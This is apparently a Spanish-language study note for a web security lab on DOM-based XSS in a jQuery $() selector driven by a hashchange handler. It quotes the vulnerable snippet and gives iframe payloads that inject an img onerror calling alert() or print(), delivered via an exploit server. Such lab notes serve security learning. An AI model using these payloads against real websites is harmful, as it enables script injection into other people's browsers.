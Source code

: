 ![](assets/2022-07-13-19-48-29.png)

Recordamos los apuntes

Vemos que tiene una vulnearbilidad del tipo $() selector
![](assets/2022-07-13-19-52-25.png)

```js

$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});

Poner...

<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
Añadimos en el body de nuestro servidor exploit este código y ponemos la dirección de nuestro web que queremos explotar (no la del servidor exploit) Con esto podremos observar en nuestra pantalla cosas. Además en vez del alert el ejercicio pide un print()
```js
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=print()>'"></iframe>
```


Lo mandamos

![](assets/2022-07-13-20-10-26.png)
